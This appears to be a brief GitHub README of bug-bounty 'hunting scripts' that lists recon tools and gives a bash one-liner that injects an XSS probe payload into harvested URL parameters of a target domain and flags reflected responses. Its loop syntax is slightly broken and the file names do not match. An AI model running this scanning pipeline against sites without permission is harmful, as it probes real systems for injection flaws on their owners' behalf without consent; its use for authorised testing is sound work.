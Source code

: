 # Some hunting scripts

## Tools:
https://github.com/tomnomnom/gf
https://github.com/tomnomnom/waybackurls
https://github.com/lc/gau
https://github.com/tomnomnom/qsreplace
https://github.com/projectdiscovery/httpx
https://github.com/tomnomnom/httprobe
https://github.com/tomnomnom/anew

## Find and testing XSS

```bash
python3 paramspider.py -d domain.com
```

### Output file has stored on output/domain.com.txt

```bash
cat jora.com.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | while read host do; do curl --silent --insecure $host | grep -qs "<script>confirm(1)" && echo "[*] XSS HERE $host"; done
```
